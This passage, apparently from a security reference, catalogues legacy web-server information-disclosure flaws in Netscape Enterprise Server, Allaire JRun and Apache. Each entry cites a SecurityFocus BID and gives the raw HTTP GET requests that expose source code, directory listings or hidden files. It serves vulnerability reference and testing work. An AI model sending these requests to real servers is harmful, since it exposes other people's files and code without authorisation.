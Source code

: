 1. GET /Sites/Knowledge/Membership/ Inspired/ViewCode.asp?source=<relative path to file> HTTP/1.0
1. GET /Sites/Knowledge/Membership/ Inspiredtutorial/ViewCode.asp?source=<relative path to file> HTTP/1.0
1. GET /Sites/Samples/Knowledge/ Membership/Inspired/ViewCode.asp? source=<relative path to file> HTTP/1.0

__Netscape Enterprise Server %20__

1. GET /file%20 HTTP/1.0
 - http://www.securityfocus.com/bid/273

__Netscape Enterprise Server /publisher__

1. GET /publisher HTTP/1.0
 - http://www.securityfocus.com/bid/2416

__Netscape Enterprise Server Win32 8.3 filename__

- http://www.securityfocus.com/bid/584

1. Normal Request: `GET /directory/ HTTP/1.0`
1. Exploitative Request: `GET /direct~1/ HTTP/1.0`


__Allaire JRun //WEB-INF/__

1. GET //WEB-INF/ HTTP/1.0
 - http://www.securityfocus.com/bid/3662

__Allaire JRun %3f__

1. GET /%3f.jsp HTTP/1.0
 - http://www.securityfocus.com/bid/3592

__Apache Web Server + Mac OS X .DS_Store__

- http://www.securityfocus.com/bid/3316

1. GET /.DS_Store HTTP/1.0
1. GET /.FBCIndex HTTP/1.0

__Apache Web Server Multiview__

- http://www.securityfocus.com/bid/3009

1. GET /?M=A HTTP/1.0
1. GET /?S=D HTTP/1.0

__Apache Web Server Long Slash__

1. GET <1 to 4096 '/' characters> HTTP/1.0
 - http://www.securityfocus.com/bid/2503

__Apache Web Server/cgi-bin/test-cgi__

- http://www.securityfocus.com/bid/2003

1. GET /cgi-bin/test-cgi?/* HTTP/1.0
1. GET /cgi-bin/test-cgi?* HTTP/1.0


__BEA WebLogic /%00/__
